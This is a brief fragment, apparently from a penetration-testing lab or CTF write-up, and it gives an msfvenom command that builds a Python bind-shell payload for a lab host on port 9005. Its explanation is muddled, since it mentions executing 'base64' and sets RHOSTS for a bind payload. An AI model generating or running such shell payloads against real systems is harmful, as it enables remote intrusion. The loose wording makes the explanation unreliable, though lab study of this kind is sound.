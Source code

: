![alt text](image-18.png)


To generate a payload that can execute **base64** with **msfvenom**, assuming the host is 10.10.10.55 and runs a Python server, we use the **syntax command**:

> msfvenom -p python/shell_bind_tcp  LPORT=9005 RHOSTS=10.10.10.55 -f python -o payload.py


![alt text](image-19.png)
